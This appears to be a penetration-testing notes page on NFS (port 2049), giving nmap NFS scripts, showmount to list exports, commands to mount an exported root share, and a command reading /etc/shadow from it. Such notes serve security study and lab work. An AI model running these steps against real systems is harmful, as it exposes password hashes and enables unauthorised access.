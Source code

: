 
## Port 2049 | nfs

https://www.youtube.com/watch?v=RZM4qf2HM9A

Network File System (NFS)

Use Nmap script to identify NFS
```
# nmap --script=nfs-ls 192.168.50.7
# nmap --script=nfs-showmount 192.168.50.7
```
Use `showmount` command to determine if the "/" share (the root of the file system) is being exported. May need to install nfs-common package to use "showmount" command
```
# apt-get install nfs-common
# showmount -e 192.168.50.7
```
The root directory is shared. Let’s mount it
```
# mkdir nfs_root
# mount -t nfs 192.168.50.7:/ ~/nfs_root -o nolock
```
Try to read shadow file
```
# cat ~/nfs_root/etc/shadow
```
